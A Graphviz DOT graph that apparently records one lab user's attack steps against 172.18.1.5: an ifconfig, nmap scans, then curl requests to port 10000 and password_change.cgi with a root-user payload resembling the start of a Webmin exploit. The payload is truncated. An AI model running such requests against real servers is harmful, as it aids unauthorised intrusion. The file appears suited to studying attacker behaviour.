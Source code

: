 // creating graph for user: 79
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmap -sv 172.18.1.5 A0 "]
	2 [label="nmap -sV 172.18.1.5 A0 "]
	3 [label="curl 172.18.1.5:10000 U"]
	4 [label="curl 172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	rankdir=LR
}
